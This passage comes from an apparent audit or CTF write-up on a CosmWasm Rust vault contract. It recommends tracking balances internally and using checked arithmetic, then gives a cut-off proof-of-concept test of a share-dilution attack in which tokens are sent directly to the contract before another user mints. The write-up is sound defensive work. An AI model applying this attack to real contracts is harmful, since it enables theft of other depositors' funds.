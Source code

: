 My recommendation would be to keep track of Contract's **relevant** balance, meaning it's balance that is relevant to the Minting/Burning of shares. That way, an exploiter cannot skew the share calculations by sending untracked tokens directly to the contract.

For example, you could add this to the contract's `Config` state:
```rust
#[cw_serde]
pub struct Config {
    pub total_supply: Uint128,
    // add this line
    pub total_balance: Uint128
}
```
Then read from/update this amount instead of having the contract query itself directly
```rust
    // replace this
    let contract_balance = deps
        .querier
        .query_balance(env.contract.address.to_string(), DENOM)
        .unwrap();
    
    // with this
    let contract_balance = CONFIG.load(deps.storage).unwrap().total_balance;
```
I'd also recommend replacing all unchecked arithmetic with their checked alternatives.

### Proof of concept

```rust
    // This demonstrates how an unprivileged user can withdraw more funds than deposited
    #[test]
    fn left_unchecked() {
        let (mut app, contract_addr) = proper_instantiate();

        // mint 10_000 tokens to both users
        app = mint_tokens(app, USER.to_owned(), Uint128::new(10_000));
        app = mint_tokens(app, USER2.to_owned(), Uint128::new(10_000));

        // USER sends 5_000 tokens directly to the contract "pre-diluting" other users
        let msg: cosmwasm_std::CosmosMsg = cosmwasm_std::BankMsg::Send {
            to_address: contract_addr.clone().into(),
            amount: vec![coin(5_000, DENOM)],
        }
        .into();
        app.execute(Addr::unchecked(USER), msg.clone()).unwrap();

        // USER calls mint with 10 tokens
        app.execute_contract(
            Addr::unchecked(USER),
            contract_addr.clone(),
            &ExecuteMsg::Mint {},
            &[coin(10, DENOM)],
        )
        .unwrap();

        // USER2 calls mint with 10_000 tokens
        app.execute_contract(
            Addr::unchecked(USER2),
            contract_addr.clone(),
            &ExecuteMsg::Mint {},
            &[coin(10_000, DENOM)],
        )
        .unwrap();

        // Querying the contract to get the number of shares USER owns
```